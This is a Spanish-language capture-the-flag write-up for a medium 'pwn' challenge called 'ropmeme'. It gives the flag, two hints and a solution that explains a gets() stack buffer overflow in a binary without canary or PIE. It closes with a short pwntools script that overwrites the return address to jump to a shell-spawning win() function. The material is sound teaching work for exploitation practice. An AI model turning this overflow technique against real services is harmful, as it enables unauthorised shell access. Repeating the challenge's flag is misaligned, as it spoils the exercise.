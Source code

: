 # Nombre: `ropmeme`
### Dificultad: `media`
### Categoría: `pwn`
### Autor: [Cae](https://c4ebt.github.io/)
### Flag: `DCCTF{pwn_c0ld3st_c4t3g0ry}`

### Descripción:
Recuperamos este binario de los tiempos en que Intro a la Progra se hacía en C y lo pusimos a correr en [hostname]:5001. Un montón de novatos programando en un lenguaje sin memory safety; que podría salir mal?

### Hint 1:
`man gets`

### Hint 2:
```
Alister: oye Cae el nombre de uno de tus desafíos tiene un typo
Cae: no es un typo ;)
```

### Solución:
Writeup muy superficial. Los conceptos que están por detrás del desafío son más profundos y las técnicas más complejas.
El source usa gets() para leer a un buffer de 64 bytes. gets() está deprecated, tal como indica su manpage: "Never use this function. Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the end of the buffer, it is extremely dangerous to use.  It has been used to break computer security". Entonces, se tiene un buffer overflow en la call a gets. Usando la herramienta checksec se puede ver que el binario no tiene ni Canary ni PIE, solo NX, por lo que se debería poder explotar con un ROP. Haciendo un reversing mínimo se puede encontrar la función win(), que hace la syscall 0x3b (execve) con una shell como argumento, por lo que podemos llamarla para obtener una shell remota. Finalmente, el exploit usando pwntools queda así:

```python
from pwn import *

context.log_level = 'DEBUG'
#p = process("./ropmeme")
p = remote("localhost", 5001)

junk = "A"*72
payload = junk + p64(0x00401176)

p.sendline(payload)
p.interactive()
```
